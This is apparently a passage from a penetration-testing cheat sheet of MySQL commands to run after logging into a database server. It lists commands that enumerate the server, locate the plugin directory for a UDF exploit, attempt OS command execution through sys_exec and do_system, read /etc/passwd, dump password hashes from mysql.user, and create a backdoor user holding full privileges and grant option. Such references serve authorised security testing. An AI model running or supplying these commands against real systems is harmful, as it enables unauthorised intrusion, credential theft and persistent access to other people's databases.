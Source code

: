 Once logged in, check out the schema and environment:

```sql
-- show list of databases
show databases;
-- Set current database to mysql
use mysql;
-- show tables in current database
show tables;
-- describe the table schema for 'user' table
describe user;
select table_name,column_name,table_schema from information_schema.columns where table_schema=database();

-- show MySQL version (both versions work)
select version();
select @@version;
-- show logged-in user
select user();
select system_user();
-- show active database
select database();
show databases;
-- show system architecture
select @@version_compile_os, @@version_compile_machine;
show variables like '%compile%';
-- show plugin directory (for UDF exploit)
select @@plugin_dir;
show variables like 'plugin%';

-- Try to execute code (try all ways)
\! id
select sys_exec('id');
select do_system('id');

-- Try to read files
select load_file('/etc/passwd');
-- more complex method
create table if not exists test (entry TEXT);
load data local infile "/etc/passwd" into table test fields terminated by '\n';
select * from test;
-- show file privileges of 'test' user
select user,file_priv from mysql.user where user='test';
-- show all privs of current user
select * from mysql.user where user = substring_index(user(), '@', 1) ;

-- Look at passwords
-- MySQL 5.6 and below
select host, user, password from mysql.user;
-- MySQL 5.7 and above
select host, user, authentication_string from mysql.user;

-- add new user with full privileges
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to test identified by 'test' WITH GRANT OPTION;
-- show exact privileges
use information_schema; select grantee, table_schema, privilege_type from schema_privileges;
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```
